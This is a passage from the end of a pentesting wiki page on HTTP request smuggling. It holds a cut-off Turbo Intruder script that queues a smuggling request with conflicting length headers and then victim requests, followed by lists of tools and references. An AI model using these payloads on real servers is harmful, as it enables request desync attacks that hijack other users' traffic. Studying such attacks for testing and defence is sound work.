 ```python

46
POST /nothing HTTP/1.1
Host: xxx.com
Content-Length: 15

kk
0

'''
    engine.queue(attack)

    victim = '''GET / HTTP/1.1
Host: xxx.com

'''
    for i in range(14):
        engine.queue(victim)
        time.sleep(0.05)


def handleResponse(req, interesting):
    table.add(req)
```

## More info

![](../.gitbook/assets/eki5edauuaaipik.jpg)

[Image from here.](https://twitter.com/SpiderSec/status/1200413390339887104?ref_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1200413390339887104&ref_url=https%3A%2F%2Ftwitter.com%2FSpiderSec%2Fstatus%2F1200413390339887104)

## Tools

* [https://github.com/PortSwigger/http-request-smuggler](https://github.com/PortSwigger/http-request-smuggler)
* [https://github.com/gwen001/pentest-tools/blob/master/smuggler.py](https://github.com/gwen001/pentest-tools/blob/master/smuggler.py)
* [https://github.com/defparam/smuggler](https://github.com/defparam/smuggler)

## References

* [https://portswigger.net/web-security/request-smuggling](https://portswigger.net/web-security/request-smuggling)
* [https://portswigger.net/web-security/request-smuggling/finding](https://portswigger.net/web-security/request-smuggling/finding)
* [https://portswigger.net/web-security/request-smuggling/exploiting](https://portswigger.net/web-security/request-smuggling/exploiting)
* [https://medium.com/cyberverse/http-request-smuggling-in-plain-english-7080e48df8b4](https://medium.com/cyberverse/http-request-smuggling-in-plain-english-7080e48df8b4)
* [https://github.com/haroonawanofficial/HTTP-Desync-Attack/](https://github.com/haroonawanofficial/HTTP-Desync-Attack/)
* [https://memn0ps.github.io/2019/11/02/HTTP-Request-Smuggling-CL-TE.html](https://memn0ps.github.io/2019/11/02/HTTP-Request-Smuggling-CL-TE.html)

